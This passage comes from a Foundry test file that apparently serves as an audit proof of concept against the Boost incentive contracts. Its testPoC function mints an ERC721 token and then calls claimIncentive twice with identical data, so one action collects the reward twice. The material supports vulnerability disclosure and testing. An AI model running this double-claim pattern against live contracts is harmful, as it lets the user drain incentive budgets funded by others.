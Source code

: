 ```solidity
                incentives: _makeIncentives(1),
                protocolFee: 500, // 5%
                referralFee: 1000, // 10%
                maxParticipants: 10_000,
                owner: address(1)
            })
        )
    );

    function setUp() public {
        mockERC20.mint(address(this), 100 ether);
        mockERC20.approve(address(budget), 100 ether);
        budget.allocate(
            abi.encode(
                ABudget.Transfer({
                    assetType: ABudget.AssetType.ERC20,
                    asset: address(mockERC20),
                    target: address(this),
                    data: abi.encode(ABudget.FungiblePayload({amount: 100 ether}))
                })
            )
        );
    }

    function testPoC() public {
        // Boost owner creates a boost with its incentive being `CGDAIncentive`
        BoostLib.Boost memory boost = boostCore.createBoost(validCreateCalldata);

        address user = makeAddr("user");
        
        // Perform the action -> Mint ERC721 token to this contract
        hoax(user, mockERC721.mintPrice());
        mockERC721.mint{value: mockERC721.mintPrice()}(address(this));

        // Prepare data for validation
        uint256 tokenId = 1;
        bytes memory data = abi.encode(address(this), abi.encode(tokenId));

        // Claim reward
        uint256 fee = 0.000075 ether;
        hoax(user, fee);
        boostCore.claimIncentive{value: 0.000075 ether}(0, 0, address(0), data);

        // Claim reward again
        hoax(user, fee);
        boostCore.claimIncentive{value: 0.000075 ether}(0, 0, address(0), data);
    }


    ///////////////////////////
    // Test Helper Functions //
    ///////////////////////////

    function _makeAction(address target, bytes4 selector, uint256 value) internal returns (BoostLib.Target memory) {
        return BoostLib.Target({
            isBase: true,
            instance: address(new ERC721MintAction()),
            parameters: abi.encode(
                AContractAction.InitPayload({chainId: block.chainid, target: target, selector: selector, value: value})
            )
        });
```